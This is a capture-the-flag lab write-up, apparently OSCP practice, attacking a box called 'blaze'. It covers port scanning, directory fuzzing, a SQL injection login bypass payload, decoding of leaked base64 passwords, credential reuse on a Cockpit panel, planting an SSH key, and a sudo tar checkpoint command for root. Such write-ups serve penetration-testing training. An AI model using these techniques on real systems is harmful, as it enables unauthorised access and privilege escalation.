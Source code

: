 `nmap -A -T4 -p- 192.168.152.10`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: blaze
|_http-server-header: Apache/2.4.41 (Ubuntu)
9090/tcp open  http    Cockpit web service 198 - 220
|_http-title: Did not follow redirect to https://192.168.152.10:9090/
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


First thing that stuck out was the CockPit service on 9090

![](Images/Pasted%20image%2020250504140528.png)
Lets go ahead and try some of these. Looks like we can get code execution. That appears to be a rabbit hole after trying some of them.

Lets do some further enumeration of port 80

```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://192.168.152.10:80/FUZZ
```

That finds some directories to work with

![](Images/Pasted%20image%2020250504141515.png)

Lets Fuzz some web technologies as we need to find our index as nothing is configured for the root page.

```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://192.168.152.10:80/indexFUZZ
```

That got us index.html but it doesn't work. Lets see if we can change our directory enum to look for files.

```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://192.168.152.10:80/FUZZ.php
```

![](Images/Pasted%20image%2020250504142101.png)

That finds something that we can check.

![](Images/Pasted%20image%2020250504142326.png)

Lets test some basic creds along with potential injections.

We got SQLi

![](Images/Pasted%20image%2020250504142424.png)

Testing basic bypass got us the following

![](Images/Pasted%20image%2020250504142550.png)

So I am unsure if we are supposed to move forward with this. Lets try intruder anyways to fuzz for SQLi

After doing multiple scans using intruder we got a successful payload `'OR '' = '` to login without a valid user.

![](Images/Pasted%20image%2020250504143347.png)

```
james 	Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=
cameron 	dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy
```

Decoding those gets

```
Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI= - canttouchhhthiss@455152
dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy - thisscanttbetouchedd@455152
```

Smashing those credentials in the other login page we found on port 9090 gets us auth as `james:canttouchhhthiss@455152`

Within the dashboard it contains a shell interface and we can grab the local flag.

![](Images/Pasted%20image%2020250504143735.png)

Lets see if we can get ourselves a normal shell or ssh. Since per the rules of the OSCP this would not count.

![](Images/Pasted%20image%2020250504144006.png)

We can add a SSH key, so lets generate one and try it.

```
ssh-keygen -t RSA -f id_rsa

cat id_rsa.pub
```

![](Images/Pasted%20image%2020250504144140.png)

Lets try to SSH using this key now. `ssh james@192.168.152.10 -i id_rsa`

![](Images/Pasted%20image%2020250504144227.png)

We get authentication. Lets move on to escalation.


# Post Exploitation
Transfer Linpeas right on over.

First thing of note `Vulnerable to CVE-2021-3560`

![](Images/Pasted%20image%2020250504144430.png)

Privilege Escalation via Tar Bash Script (WildCards)

`sudo /usr/bin/tar -czvf /tmp/backup.tar.gz * --checkpoint=1 --checkpoint-action=exec=/bin/sh`

![](Images/Pasted%20image%2020250504145551.png)



